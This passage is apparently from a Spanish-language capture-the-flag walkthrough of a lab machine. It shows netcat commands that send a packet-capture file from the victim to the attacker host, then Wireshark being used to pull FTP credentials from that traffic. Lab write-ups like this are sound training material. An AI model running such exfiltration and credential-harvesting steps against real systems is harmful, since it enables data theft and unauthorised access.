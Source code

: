 - Después de un rato analizando y enumerando la base de datos descartamos esta via, pues no parece haber nada más interesante.

- En el directorio **ROOT** encontramos un archivo “**.CAP**” que parece el tipico archivo de **WIRESHARK** donde puede haber información de trafico de red, conexiones, autenticaciones.. Nos lo pasamos a nuestra máquina atacante para poder analizarlo.

```bash
# Máquina atacamte - (Recibimos el archivo)
nc -lvp 4455 > capture.cap

# Máquina víctima - (Enviamos el archivo)
nc -w 3 192.168.45.223 4455 < capture.cap
```

![image.png](assets/img/post-img/Payday/image%2022.png)

- Una vez tenemos el archivo en nuestra máquina podemos abrirlo con **WIRESHARK**:

```bash
wireshark capture.cap
```

![image.png](assets/img/post-img/Payday/image%2023.png)

- Encontramos unas credenciales que se han utilizado en un proceso de autenticación contra un **SERVIDOR FTP**:

![image.png](assets/img/post-img/Payday/image%2024.png)
